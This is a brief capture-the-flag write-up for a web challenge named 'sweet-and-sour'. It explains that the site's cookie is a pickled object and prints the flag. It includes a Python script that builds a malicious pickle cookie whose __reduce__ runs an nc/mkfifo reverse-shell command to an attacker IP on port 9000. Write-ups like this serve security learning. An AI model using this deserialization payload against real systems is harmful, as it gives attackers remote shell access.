 # sweet-and-sour:Web

Flag Proof:`CTF{ccc1ccef217ed19c492bdada049ad2b0fbf1adcb72a92f13ab153aae068f797f}`

## Summary

- Going to the page , we get redirected to `dashboard` , and this redirection sets the cookie to what turned out to be a pickle serialized object which is known to be vulnerable to `RCE`.
- Used this script to create my cookie which would give me a reverse shell and get the flag

```python
import pickle
import sys
import base64

COMMAND = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ip> 9000 >/tmp/f"

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(COMMAND,))

print (base64.b64encode(pickle.dumps(PickleRce())))
```

![Untitled](sweet-and-sour%20Web%20099bf04b58284f2a8a6fa9cd398131e2/Untitled.png)